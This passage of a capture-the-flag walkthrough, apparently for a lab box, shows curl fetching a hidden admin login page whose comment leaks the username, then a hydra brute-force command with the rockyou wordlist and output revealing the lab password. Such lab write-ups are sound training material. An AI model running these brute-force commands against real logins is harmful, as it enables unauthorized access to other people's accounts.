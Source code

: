 Hidden directory: `/admin`

After it is done, we find a hidden directory. This directory is a login page and also we have a username which is `admin` that can found from the source code.

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkThroughs/thm/Brute_It]
└─$ curl http://$IP:80/admin/

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="styles.css">
    <title>Admin Login Page</title>
</head>
<body>
    <div class="main">
        <form action="" method="POST">
            <h1>LOGIN</h1>

            
            <label>USERNAME</label>
            <input type="text" name="user">

            <label>PASSWORD</label>
            <input type="password" name="pass">

            <button type="submit">LOGIN</button>
        </form>
    </div>

    <!-- Hey john, if you do not remember, the username is admin -->       <--------------------
</body>
</html>
~~~


# [Task 3] Getting a shell

Now that we have a username, we can try to brute force the password. I use a popular tool called `hydra` which you can get it [here](https://github.com/vanhauser-thc/thc-hydra). First I checked the request form and the response to see the parameters to know how to send requests with hydra. You can check them from *network* section in inspect mode after sending a request. Now we can run hydra. I used rockyou wordlist which you can download [here](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwiH0dP-m5XzAhVGxhoKHb_XA_YQFnoECAYQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd).

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkThroughs/thm/Brute_It]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-23 09:20:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.37.84:80/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[80][http-post-form] host: 10.10.37.84   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
~~~
